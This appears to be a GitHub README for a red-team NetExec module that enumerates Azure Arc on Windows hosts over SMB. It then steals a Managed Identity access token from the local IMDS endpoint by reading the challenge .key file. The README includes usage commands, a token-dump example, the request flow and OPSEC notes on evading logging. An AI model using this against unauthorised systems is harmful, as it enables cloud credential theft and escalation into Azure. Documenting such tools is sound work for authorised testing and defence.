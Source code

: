 # NetExec Module: `azurearc`

Enumerates Azure Arc presence on Windows targets and, when present, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented **401 challenge → `.key` file → second request** flow.

- **Protocol:** SMB (requires local administrator privileges)
- **Primary use case:** Rapidly map Arc deployment and obtain a cloud-scoped token for Azure control-plane enumeration during red team engagements.

---

## ✨ Features

- **Presence check** (`CHECK=true`): Detects Arc agent by listing well-known install paths.
- **Token retrieval** (default): Executes the IMDS challenge/response locally on the target and returns JSON containing `access_token`.

* Added the module file at:  
nxc/modules/azurearc.py
---

## ⚙️ Usage

```bash
# Presence check only :
nxc smb <TARGET> -u <USER> -p '<PASS>' -M azurearc -o CHECK=true

# Token dump :
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
[*] Attempting to retrieve Azure Arc Managed Identity access token
[+] Managed Identity token retrieved
{
  "access_token": "eyJhbGciOi...<redacted>...",
  "expires_on": "1730812345",
  "token_type": "Bearer",
  "resource": "https://management.azure.com"
}
```

## 🔍 How It Works (Behavior)
### Presence check via SMB listing:
C:\Program Files\AzureConnectedMachineAgent\*  
C:\Program Files (x86)\AzureConnectedMachineAgent\*

### Token retrieval on target (PowerShell):
1.GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=...  
→ expect 401 with WWW-Authenticate: Basic realm="<path to .key>"  
Read the .key contents (requires local admin).  
2.Second GET with Authorization: Basic <key> to obtain token JSON.  
Write JSON to OUTFILE, fetch via SMB, and delete the file.



### 📸 Screenshots
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/41ae5d89-0756-44dd-a0a5-7d936d3879c2" />
<img width="1189" height="391" alt="2025-10-05_17h29_40" src="https://github.com/user-attachments/assets/1b362d70-aace-4c94-bcbf-beb7e0679d3d" />



### 🔒 OPSEC & Scope Notes
Local admin required on the target (matches Arc’s security boundary).\
Tokens are written to a temp file on the target only long enough to read back via SMB. the file is then deleted.
Be mindful of token lifetime and endpoint logging.


### 🧭 References
NSIDE Attack Logic  Azure Arc - Part 1 - Escalation from On-Premises to Cloud\
https://www.nsideattacklogic.de/azure-arc-part-1-escalation-from-on-premises-to-cloud/

